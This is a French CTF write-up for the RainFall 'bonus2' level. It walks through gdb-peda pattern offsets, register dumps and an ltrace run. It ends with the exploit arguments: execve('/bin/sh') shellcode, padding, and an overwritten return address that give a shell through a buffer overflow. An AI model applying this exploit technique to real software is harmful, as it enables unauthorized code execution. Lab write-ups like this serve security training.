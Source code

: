 <pre>
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ r $(python -c  "print('A' * 200)") 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
Starting program: /home/alarm/rainfall/bonus2/Ressources/bonus2 $(python -c  "print('A' * 200)") 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'

Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%AAsAABAA$AAnAACAA-AA(AADAA;A

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x4f ('O')
EBX: 0xffffd3b0 ('A' <repeats 43 times>, "%AAsAABAA$AAnAACAA-AA(AADAA;A")
ECX: 0xffffffff 
EDX: 0xffffffff 
ESI: 0xffffd3fc --> 0xffffdc6a ("en_US.UTF-8")
EDI: 0xffffd3ac --> 0x1 
EBP: 0x41414441 ('ADAA')
ESP: 0xffffd360 ('A' <repeats 43 times>, "%AAsAABAA$AAnAACAA-AA(AADAA;A")
EIP: 0x800413b
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
<strong>Invalid $PC address: 0x800413b</strong>
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0800413b in ?? ()
gdb-peda$ pattern offset 'A;'
<strong>A; found at offset: 29</strong>
</pre>

- Quand LANG est different en different de NULL alors var_60 est ecrit dans string
- Sauf que vu qu'il y a deja un overide dans le strcpy de l'arg[1] les var_60 et var_38 sont considerer comme un seul argument
<pre>
$> LANG=nl gdb ./bonus2 

gdb-peda$ pattern create 40
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa'
gdb-peda$ r $(python -c "print('A' * 40)") 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa'
Starting program: /home/alarm/rainfall/bonus2/Ressources/bonus2 $(python -c "print('A' * 40)") 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa'

Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%AAsAABAA$AAnAACAA-AA(AADAA;A

[----------------------------------registers-----------------------------------]
ESP: 0xffffd4d0 ("DAA;A")
<strong>EIP: 0x41412841 ('A(AA')</strong>
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41412841
[------------------------------------stack-------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41412841 in ?? ()
gdb-peda$ pattern offset 'A(AA'
<strong>A(AA found at offset: 23</strong>
</pre>
- On recupere la bonne addresse memoire ou sera stocké le shellcode
<pre>
bonus2@RainFall:~$ LANG=nl ltrace ./bonus2 $(/tmp/shell) "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
\__libc_start_main(0x8048529, 3, 0xbffff684, 0x8048640, 0x80486b0 <unfinished ...>
strncpy(<strong>0xbffff580</strong>, "1\311\367\341Qh//shh/bin\211\343\260\013\315\200AAAAAAAAAAA"..., 40) = 0xbffff580
strncpy(0xbffff5a8, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 32)                            = 0xbffff5a8
getenv("LANG")                                                                            = "nl"
memcmp(0xbffff84c, 0x804873d, 2, 0xb7fff918, 0)                                           = 1
memcmp(0xbffff84c, 0x8048740, 2, 0xb7fff918, 0)                                           = 0
strcat("Goedemiddag! ", "1\311\367\341Qh//shh/bin\211\343\260\013\315\200AAAAAAAAAAA"...) = "Goedemiddag! 1\311\367\341Qh//shh/bin\211\343\260\013"...
puts("Goedemiddag! 1\311\367\341Qh//shh/bin\211\343\260\013"...)                          = 86
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
</pre>
- Du coup on peut lancer le programme avec les argument suivant
| arg 1 | arg 2 |
|-------|-------|
| shellcode + `A` * 20 | `B` * 23 + `\x80\xf5\xff\xbf` |
- On creer des .c car en python ca bug
